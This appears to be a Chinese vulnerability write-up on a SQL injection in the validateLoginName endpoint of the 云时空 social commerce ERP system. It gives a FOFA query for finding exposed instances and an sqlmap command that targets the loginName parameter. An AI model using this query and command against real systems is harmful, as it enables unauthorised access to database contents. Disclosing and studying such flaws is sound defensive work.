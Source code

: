 # 云时空 社会化商业ERP系统 validateLoginName SQL注入漏洞

## 漏洞描述

云时空 社会化商业ERP系统存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>云时空 社会化商业ERP系统</a-checkbox></br>

## FOFA

<a-checkbox checked>title="云时空社会化商业ERP"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1630040977210-31a0a314-667a-4cbe-9a9b-dce153582ee0-20220313155426852.png)

使用SQLmap验证漏洞

```python
sqlmap -u "http://xxx.xxx.xxx.xxx/sys/user/validateLoginName?loginName=admin"
```

![img](../../../.vuepress/public/img/1630041138096-be221d73-c3e6-44b8-b0e8-71a999cb58f7.png)